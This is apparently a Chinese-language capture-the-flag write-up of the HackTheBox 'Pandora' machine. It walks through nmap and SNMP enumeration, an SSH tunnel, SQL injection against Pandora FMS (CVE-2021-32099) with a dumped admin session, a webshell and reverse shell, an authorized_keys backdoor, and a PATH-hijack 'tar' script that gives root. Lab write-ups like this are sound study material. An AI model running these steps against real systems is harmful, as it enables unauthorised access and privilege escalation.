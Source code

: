 nmap 結果
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.65 seconds
```

在網頁的角落有看到域名 先把他加進去
![image](https://hackmd.io/_uploads/rkmOeyFB1e.png)

網站裡面都沒東西 subdomain 也找不到 看了 writeup 知道有 udp port 要記得去掃
```
sudo nmap --min-rate 10000 -p- -sU 10.10.11.136
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 20:43 EST
Warning: 10.10.11.136 giving up on port because retransmission cap hit (10).
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.52s latency).
Not shown: 65504 open|filtered udp ports (no-response), 30 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 80.46 seconds
```

[這裡](https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp)有關於 snmp 的教學 

用 snmpwalk 去爆破他 
```
snmp -v/2c -c public <IP>
```
但不知道為甚麼我的爆不出來 到一半就會斷掉= = 
 
上網看別人的 帳密是 `daniel` `HotelBabylon23` 正常會跑出這個登入紀錄
![image](https://hackmd.io/_uploads/HJMxNeFS1l.png)

進去後有一個叫 matt 的用戶 但我們沒有權限讀取裡頭的 flag
![image](https://hackmd.io/_uploads/SJ5umF5rke.png)

透過 linpeas.sh 查看可以發現他的 pandora.panda.htb 限制只有 localhost 的 80 port 可以存取 並由 matt 管理
```
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

因此可以透過 ssh -L 的參數把他的 80 port 映射過來
```
ssh -L :9001:localhost:80 daniel@10.10.11.136
```

這時去訪問 127.0.0.1:9001 就可以進到一個 CMS 網站
![image](https://hackmd.io/_uploads/HkbyZc9Bke.png)

是 `Pandora FMS v7.0NG.742_FIX_PERL2020` 網路上有找到四個相關漏洞 [這裡](https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/)

其中有一個 SQLi 的 CVE 是可以利用的 [CVE-2021-32099](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated?tab=readme-ov-file)

問題 url 在這裡 `http://127.0.0.1:9001/pandora_console/include/chart_generator.php?session_id=1%27` 
![image](https://hackmd.io/_uploads/BkgVd9cH1x.png)

用 sqlmap 去爆他 在 `tsessions_php` table 中的 is_session 找到 admin 的 session
```
+----------------------------+-----------------------------------------------------+-------------+
| id_session                 | data                                                | last_active |
+----------------------------+-----------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                            | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                | 1638789018  |
| 18le11a0upgsjv7eld3fqnbqs8 | id_usuario|s:6:"daniel";                            | 1735203007  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                | 1638792211  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                | 1638786129  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                            | 1638540332  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                | 1638795380  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                | 1638786842  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                            | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                | 1638792685  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                            | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                            | 1641195617  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                            | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                | 1638787267  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                            | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                | 1638795315  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                            | 1638881664  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                | 1638786277  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                            | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                            | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                | 1638786349  |
| heasjj8c48ikjlvsf1uhonfesv | NULL                                                | 1638540345  |
| hhu4l2thfm779jfh1ol11d93g3 | id_usuario|s:5:"admin";                             | 1735202775  |
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                            | 1638168492  |
| jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                            | 1638456173  |
| kp90bu1mlclbaenaljem590ik3 | NULL                                                | 1638787808  |
| ne9rt4pkqqd0aqcrr4dacbmaq3 | NULL                                                | 1638796348  |
| o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                            | 1638540482  |
| oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                            | 1637667827  |
| p5s1rcd21blgim74lbj7b3brug | id_usuario|s:6:"daniel";                            | 1735197254  |
| pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                            | 1638168416  |
| qq8gqbdkn8fks0dv1l9qk6j3q8 | NULL                                                | 1638787723  |
| r097jr6k9s7k166vkvaj17na1u | NULL                                                | 1638787677  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                            | 1638889082  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                            | 1638547193  |
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                            | 1638793297  |
| vdhsaetbra1iij98gie1tlb89g | NULL                                                | 1735203299  |
+----------------------------+-----------------------------------------------------+-------------+
```
貼到登入介面後就可以直接登入了
![image](https://hackmd.io/_uploads/HkDzlj9rJg.png)

在 `admin tool` 的 `File manager` 有個地方可以上傳檔案
![image](https://hackmd.io/_uploads/r1M085jSyl.png)

看他的路徑雖然有被加密 但 base64 就可以解開 
![image](https://hackmd.io/_uploads/Hybgw5jHyg.png)

成功拿到 webshell 並打 reverse shell 回來 得到 matt 權限並拿到 user flag
![image](https://hackmd.io/_uploads/S1uMw9irkg.png)

可以參考[這篇](https://0xdf.gitlab.io/2022/05/21/htb-pandora.html) 還有另一種是用 matt 身分拿到 shell 的

想使用 sudo -l 會跳錯誤
```
sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

用 find / -perm -4000 -ls 2>/dev/null 有發現 `/usr/bin/pandora_backup` 但執行也會失敗

```
/usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
Backup failed!
```

上網查後原因是說 reverse shell 不穩定因為他是半開放的 因此可以透過把 自己的 ssh public key 放進去 `/home/matt/.ssh/authorized_keys` 並去 ssh 連線

這時候 sudo -l 跟 `/usr/bin/pandora_backup` 都可以運作了
運行後會發現 /usr/bin/pandora_backup 是把 `/var/www/pandora/pandora_console/` 下的資料都備份一次

同時可以知道他是用 tar 在壓縮 且他沒有指定 tar 的路徑 所以可以偽造一個 tar 加入到環境變數 這樣當運行 pandora_backup 時就會先使用環境變數裡的
```
vi tar
#!/bin/bash

bash 


chmod +x tar
export PATH=/home/matt:$PATH
/usr/bin/pandora_backup
```

成功變成 root 拿到 flag
![image](https://hackmd.io/_uploads/H168Moorkx.png)
